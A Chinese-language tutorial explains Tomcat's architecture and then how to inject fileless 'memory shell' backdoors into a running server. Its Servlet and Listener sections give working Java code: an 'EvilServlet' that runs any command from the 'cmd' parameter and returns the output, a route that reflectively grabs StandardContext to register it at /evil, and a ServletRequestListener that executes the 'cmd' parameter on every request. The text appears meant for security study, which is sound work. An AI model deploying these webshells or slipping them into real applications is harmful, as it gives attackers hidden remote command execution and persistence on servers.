#### 1、Tomcat 基础

​	Tomcat可以看成是Web服务器加上Servlet容器，通过 Connector 组件接受并解析 HTTP 请求，然后封装成一个 ServletRequest 对象（org.apache.catalina.connector.RequestFacade 对象）发送给 Container 处理，容器处理完后将响应封装为 ServletResponse 返回给 Connector ,Connnector 将 ServletResponse 对象解析为 HTTP 响应返回给客户端。

Tomcat Server大致分为三个组件，Service、Connector、Container

-  Service 负责连接 Connector 与 Container ,connector 监听网络端口，解析客户端的 http 请求，封装成 ServletRequest 对象然后通过 Service 转发给 Container, 接受并解析 Container 返回的 ServletResponse 对象为 http 响应。不同的 Connector 可以处理不同的请求协议，然后调用所属 Service 内绑定的 Container ，即 engine ，实现路由分级。

-  Container 包含四个子容器 Engine Host Context Wrapper 。

    - Engine 从一个或多个与之绑定的 Connector 接收已经被解析好的 HTTP 请求 `ServletRequest`，然后根据请求的域名信息，将请求分发给下面的 Host 处理。

    - 可以在同一个 Tomcat 上配置 `www.baidu.com` 和 `www.google.com` 两个 Host。当 Engine 收到请求时，Host 会根据 HTTP 请求头中的 `Host` 字段来接收这个请求。

    - Context 负责管理该应用内的所有资源、读取该应用的 `web.xml` 配置文件、初始化监听器（Listener）和过滤器（Filter）等

    - Wrapper 有一张图很合适描述，借用的一位师傅博客的图片

        

##### ServletContext

​	基于 Servlet 规范定义的一个接口，每一个 web 应用都有唯一的 ServletContext 对象，同一个web 应用下的 Servlet Filter Listener 都能访问。其中定义的方法可以存储一些数据，用于共享。可以获取 web 应用 web.xml 下的一些参数，读取 web 应用内部文件数据等

##### ApplicationContext

​    tomcat 中实现了 ServletContext 接口的类，内部持有 StandardContext 的引用。一般返回的都是 context.getFacade() ，例如 request.getSession().getServletContext(); 得到的就是一个 ApplicationContextFacade 对象。

```java
public ApplicationContext(StandardContext context) {
    super();
    this.context = context;
    this.service = ((Engine) context.getParent().getParent()).getService();
    this.sessionCookieConfig = new ApplicationSessionCookieConfig(context);

    // Populate session tracking modes
    populateSessionTrackingModes();
}
private final StandardContext context;
private final ServletContext facade = new ApplicationContextFacade(this);
protected ServletContext getFacade() {
        return this.facade;
    }
```

ApplicationContextFacade 类中持有对 ApplicationContext 的引用。

```java
public ApplicationContextFacade(ApplicationContext context) {
    super();
    this.context = context;

    classCache = new HashMap<>();
    objectCache = new ConcurrentHashMap<>();
    initClassCache();
}
```


##### StandardContext

内部维护了各种 Map 和 List，用来存放所有的 Servlet Wrapper、 Filter 、Listener。拥有自己的 WebappClassLoader，负责加载项目 WEB-INF/classes 和 WEB-INF/lib 下的类，保证不同 Web 应用之间的类隔离。负责这个 Web 应用的启动、停止、重加载。 tomcat 底层 context。

#### 2、tomcat 类加载机制 

​	tomcat 中有多个 webapp 

##### Servlet

​	java web 服务一般由 Http Server + Servlet  container + Servlet 组成。HTTP Server 处理 Socket 连接，http 报文解析，reqHdr reqBody param 参数解析，响应格式组织，线程管理等，Servlet 读取上述解析完的数据，与数据库交互，鉴权等业务逻辑，这部分也称为 Servlet 

Http 服务器解析 http 报文

```bash
method = GET
uri = /app/user
query = id=1
headers = {Host: localhost, ...}
body = 字节流
```

##### Filter

像 go 的中间件一样，在业务逻辑之前对 http 请求进行处理，不改变业务核心代码的同时增添额外的逻辑。

执行顺序的问题，Filter执行顺序

- 基于注解配置：按照类名的字符串，值小的先执行
- web.xml：根据对应的 Mapping 顺序，上边的先执行

##### Listener

1. 监听生命周期

- **`ServletContextListener`**：监听整个 Web 应用的启动和关闭。
    - 通常用来在应用刚启动时，加载全局配置文件、初始化数据库连接池

- **`HttpSessionListener`**：监听 Session 对象的创建和销毁。

- **`ServletRequestListener`**：监听每一次 HTTP 请求的到达和结束。
    - 可以用于在请求创建时记录时间戳，销毁时相减，从而统计算法的执行耗时；或者用于在请求初期初始化一些绑定在当前线程上的上下文变量等

2. 监听属性变化

- **`ServletContextAttributeListener`**：监控全局应用域内部变量的增删改。

- **`HttpSessionAttributeListener`**：监控会话域内部变量的变化。

    - 实现单点登录或异地登录互踢。当监听到某个用户的登录态 Token 被写入新的 Session 时，可以触发逻辑去作废该账号之前的旧 Session。

    **`ServletRequestAttributeListener`**：监控请求域内部变量的变化。

大概可以分为以下三类

- ServletContextListener
- HttpSessionListener
- ServletRequestListener

三者的加载顺序为 `Listener->Filter->Servlet` 销毁顺序相反。


#### 3、Tomcat 内存马

Tomcat7.x 及以上 支持 Servlet 3.0。Servlet 3.0 之后支持动态注册组件，内存马原理是动态地将恶意组件添加到正在运行的Tomcat服务器中。正常业务通过什么方法添加的，我们就利用网站上存在的漏洞通过什么方法去添加恶意组件到 StandardContext 中去。



java Agent agentmain 模式，下载一个 agent.jar 到临时目录，然后使用 attach 机制将 agent.jar 加载到目标 JVM 

命令执行、反射调用、JNDI 远程加载恶意类等方式注入内存马

##### (1) Servlet 型

StandardContext 父类 ContainerBase.children 里的 Wrapper 中决定当前 webApp 加载有哪些 Servlet 。

Tomcat 中大多数 Servlet 默认是懒加载的，Tomcat 启动后，没有用户访问过 /health，那么这个 Servlet
 对象就不存在内存中，于是需要一个代理人 Wrapper 在用户请求 /health 的时候拦截该请求，将 Servlet 类实例化用于处理该请求

在以下方法打断点，然后启动应用



在这里，读取 xml 配置信息到上下文



这里会加载 filter listener ，我们也是使用下面代码的两个方法 addFilterMap && addApplicationListener 添加内存马的。



再往下翻代码就能看到如何添加 Servlet , 做什么处理



最终流程

```java
StandardContext ctx = ...;                    // 1. 拿到 context

Wrapper wrapper = ctx.createWrapper();        // 2. 造空白 Wrapper
wrapper.setName("evil");                      // 3. 起名
wrapper.setServlet(new EvilServlet());        // 4. 实例
wrapper.setLoadOnStartup(1);                  

ctx.addChild(wrapper);                         // 5. 挂进 children
ctx.addServletMappingDecoded("/evil", "evil"); // 6. 绑定 URL
```

恶意 Servlet

```java
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.nio.charset.Charset;

public class EvilServlet extends HttpServlet {

    @Override
    protected void service(HttpServletRequest req, HttpServletResponse resp)
            throws ServletException, IOException {

        String cmd = req.getParameter("cmd");
        resp.setContentType("text/plain;charset=UTF-8");

        if (cmd == null || cmd.isEmpty()) {
            resp.getWriter().write("usage: ?cmd=whoami");
            return;
        }

        // 判断 OS
        String os = System.getProperty("os.name").toLowerCase();
        String[] command;
        if (os.contains("win")) {
            command = new String[]{"cmd.exe", "/c", cmd};
        } else {
            command = new String[]{"/bin/sh", "-c", cmd};
        }

        Process process = Runtime.getRuntime().exec(command);

        // 读取标准输出
        try (BufferedReader br = new BufferedReader(
                new InputStreamReader(process.getInputStream(), Charset.forName("GBK")))) {
            String line;
            while ((line = br.readLine()) != null) {
                resp.getWriter().println(line);
            }
        }

        // 读取错误输出
        try (BufferedReader br = new BufferedReader(
                new InputStreamReader(process.getErrorStream(), Charset.forName("GBK")))) {
            String line;
            while ((line = br.readLine()) != null) {
                resp.getWriter().println(line);
            }
        }

        process.waitFor();
    }
}
```

写个路由模拟网站漏洞，访问 /injectServlet 之后再通过 evil 路径即可执行恶意命令

```java
package com.wsh.java_memory_shell;

import org.apache.catalina.Wrapper;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

@WebServlet("/injectServlet")
public class InjectServlet extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        try {
            Field reqf = request.getClass().getDeclaredField("request");
            reqf.setAccessible(true);
            Request realReq = (Request) reqf.get(request);
            StandardContext context = (StandardContext) realReq.getContext();

            Wrapper wrapper = context.createWrapper();
            wrapper.setName("evilServlet");
            wrapper.setServlet(new EvilServlet());
            wrapper.setLoadOnStartup(1);

            context.addChild(wrapper);

            context.addServletMapping("/evil", "evilServlet");
            response.setContentType("text/plain;charset=UTF-8");
            response.getWriter().write("success");

        } catch (Exception e) {
            e.printStackTrace();
            response.getWriter().write("failure");
        }
    }
}
```




##### (2) Listener 型 

StandardContext 的 applicationEventListenersObjects 字段决定当前 webApp 加载有哪些 Listener 

ServletContextListener 只在 web 应用启动时触发一次，所以不合适作为内存马，并且它的事件对象 ServletContextEvent 里只有全局上下文，没有具体的 Request 和 Response 对象，不能读取通过 HTTP 传来的payload，HttpSessionListener 只能监听 session 产生变化，不方便触发，也拿不到 res req 对象，没办法执行命令。ServletRequestListener 监听 每个请求的创建，



每个 HTTP 请求到达，会将其解析包装成 ServletRequest 对象，遍历 ServletRequestListener 逐个调用它们的 requestInitialized() 方法；正常来说，这个地方可以做流量统计、请求日志等操作。

下面简单配置环境

```java
package com.wsh.java_memory_shell;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet("/health")
public class WebApp extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        resp.setContentType("text/plain;charset=UTF-8");
        resp.getWriter().write("health");
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doGet(req, resp);
    }
}

```

configuration 配置 Maven ，command line : tomcat7:run , maven 相关配置

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0 http://maven.apache.org/xsd/settings-1.0.0.
xsd">
    <mirrors>
        <mirror>
            <id>aliyunmaven</id>
            <mirrorOf>*</mirrorOf>
            <name>阿里云公共仓库</name>
            <url>https://maven.aliyun.com/repository/public</url>
        </mirror>
    </mirrors>
</settings>


<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>_0_github_repo_JavaDebug</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <packaging>war</packaging>

    <dependencies>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>7.0.47</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-coyote</artifactId>
            <version>7.0.47</version>
            <scope>provided</scope>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-war-plugin</artifactId>
                <version>3.3.2</version>
                <configuration>
                    <failOnMissingWebXml>false</failOnMissingWebXml>
                </configuration>
            </plugin>
            <!-- Tomcat 7 Maven plugin to run the app -->
            <plugin>
                <groupId>org.apache.tomcat.maven</groupId>
                <artifactId>tomcat7-maven-plugin</artifactId>
                <version>2.2</version>
                <configuration>
                    <port>8080</port>
                    <path>/</path>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```



然后注册一个 WebListener 

```java
package com.wsh.java_memory_shell;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
@WebListener
public class MInjectListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
        String cmd = req.getParameter("cmd");
        if (cmd != null && !cmd.isEmpty()) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre) { }
}

```

打断点调试，即可看到 Listener 加载流程



但是实际中一般无法直接写代码来上线这个内存马，通常利用网站漏洞，打反序列化动态反射注入，在内存中 new 一个恶意 Listener , 或者文件上传。

这里我们不费心构建这样的一个网站了，假设已经做好前面的流程，

tomcat 容器结构

```
Server（整个 Tomcat 实例）
 └── Service
      ├── Connector
      └── Engine
           └── Host
                └── Context（一个 webapp）
                     ├── Listener 列表  对应 applicationEventListenersObjects
                     ├── Filter 列表    对应 filterDefs + filterMaps + filterConfigs
                     ├── Servlet 列表
                     └── ServletContext
```

能看到有这个方法可以添加 Listener

```java
/**
 * Add a listener to the end of the list of initialized application event
 * listeners.
 */
public void addApplicationEventListener(Object listener) {
    int len = applicationEventListenersObjects.length;
    Object[] newListeners = Arrays.copyOf(applicationEventListenersObjects,
            len + 1);
    newListeners[len] = listener;
    applicationEventListenersObjects = newListeners;
}
```

```java
Field req1 = request.getClass().getDeclaredField("request");
req1.setAccessible(true);
Request req = (Request) req1.get(request);
StandardContext context = (StandardContext) req.getContext();

Shell_Listener mInjectListener = new MInjectListener();
context.addApplicationEventListener(mInjectListener);
```

通过环境现有漏洞执行上述代码之后，即完成了内存马注入。


##### (3) Filter 型

StandardContext 的 filterDefs + filterMaps + filterConfigs 字段决定当前 webApp 加载有哪些 Filter 

http req --> server --> filter_1 --> filter_2 --> servlet  , 动态注册恶意 filter ，将其放在最前面避免被其他 filter 干扰。

web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>filter</filter-name>
        <filter-class>filter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>filter</filter-name>
        <url-pattern>/filter</url-pattern>
    </filter-mapping>
</web-app>
```

在 filter.doFilter 处下断点得到调用栈

filter.doFilter() --> ApplicationFilterChain.doFilter() --> internalDoFilter(req,res) , internalDoFilter 方法中遍历 filters 中的元素，

```java
private ApplicationFilterConfig[] filters = new ApplicationFilterConfig[0];
```

执行 getFilter() 方法，经过下面的 if 判断，走入的是下面的 else 分支，调用

```java
filter.doFilter(request, response, this);
```

